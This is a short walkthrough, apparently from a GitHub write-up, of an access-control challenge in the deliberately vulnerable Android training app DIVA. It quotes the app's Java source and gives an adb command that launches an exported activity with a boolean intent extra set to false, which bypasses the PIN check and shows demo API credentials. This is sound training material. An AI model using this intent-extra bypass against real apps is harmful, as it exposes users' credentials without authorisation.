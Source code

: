 ## Access Control Part 2

So this time, you will be greeted by a page thats asks you whether you have registered or not.

If you chose registered, the credentials will come out

If you chose register now, you will be prompted to enter the pin which you have gotten from payatu.com

So what if we try the method mentioned in part 1?

Lets see the source code:
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_access_control2);
    }

    public void viewAPICredentials(View view) {
        //RadioButton rbalreadyreg = (RadioButton) findViewById(R.id.aci2rbalreadyreg);
        RadioButton rbregnow = (RadioButton) findViewById(R.id.aci2rbregnow);
        Intent i = new Intent();
        boolean chk_pin = rbregnow.isChecked();

        // Calling implicit intent i.e. with app defined action instead of activity class
        i.setAction("jakhar.aseem.diva.action.VIEW_CREDS2");
        i.putExtra(getString(R.string.chk_pin), chk_pin);
        // Check whether the intent resolves to an activity or not
        if (i.resolveActivity(getPackageManager()) != null){
            startActivity(i);
        }
        else {
            Toast.makeText(this, "Error while getting Tveeter API details", Toast.LENGTH_SHORT).show();
            Log.e("Diva-aci1", "Couldn't resolve the Intent VIEW_CREDS2 to our activity");
        }
    }


so lets try this in the terminal:
   
   adm shell am start -a jakhar.aseem.diva.VIEW_CREDS2



Apparently it doesnt work. Lets look at the source code for VIEW_CREDS2:

#### The vulnerability

    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_apicreds2);
        TextView apicview = (TextView) findViewById(R.id.apic2TextView);
        EditText pintext  = (EditText) findViewById(R.id.aci2pinText);
        Button  vbutton   = (Button) findViewById(R.id.aci2button);
        Intent i = getIntent();
        boolean bcheck = i.getBooleanExtra(getString(R.string.chk_pin), true);

        if (bcheck == false) {
            // Connect to vendor cloud and send User PIN
            // Get API credentials and other confidential details of the user
            String apidetails = "TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2";
            // Display the details on the app
            apicview.setText(apidetails);
        }
        else {
            apicview.setText("Register yourself at http://payatu.com to get your PIN and then login with that PIN!");
            pintext.setVisibility(View.VISIBLE);
            vbutton.setVisibility(View.VISIBLE);
        }
    }
Apparently what you get is determined by a single boolean variable known as bcheck which is from chk_pin from the previous activity

If chk_pin is true, it gives you the page which prompts for the pin

Else, it shows you the credentials which is what we want!!!!

#### The exploit

So what we want is to start the activity with chk_pin being false!

so type this in the terminal:
        
     adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS2 -n jakhar.aseem.diva/.APICreds2Activity --ez check_pin false

--ez is used to pass a boolean value into the activity





#### Success!!!


